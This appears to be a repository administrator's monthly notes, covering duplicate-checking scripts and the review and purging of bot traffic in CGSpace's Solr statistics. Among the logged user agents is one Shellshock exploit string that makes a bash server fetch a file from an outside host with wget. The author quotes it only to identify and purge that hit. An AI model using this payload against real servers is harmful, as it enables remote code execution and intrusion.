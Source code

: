 ```yaml
---
title: "March, 2022"
date: 2022-03-01T16:46:54+03:00
author: "Alan Orth"
categories: ["Notes"]
---
```


## 2022-03-01

- Send Gaia the last batch of potential duplicates for items 701 to 980:

```console
$ csvcut -c id,dc.title,dcterms.issued,dcterms.type ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4.csv
$ ./ilri/check-duplicates.py -i /tmp/tac4.csv -db dspace -u dspace -p 'fuuu' -o /tmp/2022-03-01-tac-batch4-701-980.csv
$ csvcut -c id,filename ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4-filenames.csv
$ csvjoin -c id /tmp/2022-03-01-tac-batch4-701-980.csv /tmp/tac4-filenames.csv > /tmp/2022-03-01-tac-batch4-701-980-filenames.csv
```

<!--more-->

## 2022-03-04

- Looking over the CGSpace Solr statistics from 2022-02
  - I see a few new bots, though once I expanded my search for user agents with "www" in the name I found so many more!
  - Here are some of the more prevalent or weird ones:
    - axios/0.21.1
    - Mozilla/5.0 (compatible; Faveeo/1.0; +http://www.faveeo.com)
    - Nutraspace/Nutch-1.2 (www.nutraspace.com)
    - Mozilla/5.0 Moreover/5.1 (+http://www.moreover.com; webmaster@moreover.com)
    - Mozilla/5.0 (compatible; Exploratodo/1.0; +http://www.exploratodo.com
    - Mozilla/5.0 (compatible; GroupHigh/1.0; +http://www.grouphigh.com/)
    - Crowsnest/0.5 (+http://www.crowsnest.tv/)
    - Mozilla/5.0/Firefox/42.0 - nbertaupete95(at)gmail.com
    - metha/0.2.27
    - ZaloPC-win32-24v454
    - Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:x.x.x) Gecko/20041107 Firefox/x.x
    - ZoteroTranslationServer/WMF (mailto:noc@wikimedia.org)
    - FullStoryBot/1.0 (+https://www.fullstory.com)
    - Link Validity Check From: http://www.usgs.gov
    - OSPScraper (+https://www.opensyllabusproject.org)
    - () { :;}; /bin/bash -c \"wget -O /tmp/bbb www.redel.net.br/1.php?id=3137382e37392e3138372e313832\"
  - I submitted [a pull request to COUNTER-Robots](https://github.com/atmire/COUNTER-Robots/pull/52) with some of these
- I purged a bunch of hits from the stats using the `check-spider-hits.sh` script:

```console
]$ ./ilri/check-spider-hits.sh -f dspace/config/spiders/agents/ilri -p
Purging 6 hits from scalaj-http in statistics
Purging 5 hits from lua-resty-http in statistics
Purging 9 hits from AHC in statistics
Purging 7 hits from acebookexternalhit in statistics
Purging 1011 hits from axios\/[0-9] in statistics
Purging 2216 hits from Faveeo\/[0-9] in statistics
Purging 1164 hits from Moreover\/[0-9] in statistics
Purging 740 hits from Exploratodo\/[0-9] in statistics
Purging 585 hits from GroupHigh\/[0-9] in statistics
Purging 438 hits from Crowsnest\/[0-9] in statistics
Purging 1326 hits from nbertaupete95 in statistics
Purging 182 hits from metha\/[0-9] in statistics
Purging 68 hits from ZaloPC-win32-24v454 in statistics
Purging 1644 hits from Firefox\/x\.x in statistics
Purging 678 hits from ZoteroTranslationServer in statistics
Purging 27 hits from FullStoryBot in statistics
Purging 26 hits from Link Validity Check in statistics
Purging 26 hits from OSPScraper in statistics
Purging 1 hits from 3137382e37392e3138372e313832 in statistics
Purging 2755 hits from Nutch-[0-9] in statistics

Total number of bot hits purged: 12914
```

- I added a few from that list to the local overrides in our DSpace while I wait for feedback from the COUNTER-Robots project

<!-- vim: set sw=2 ts=2: -->
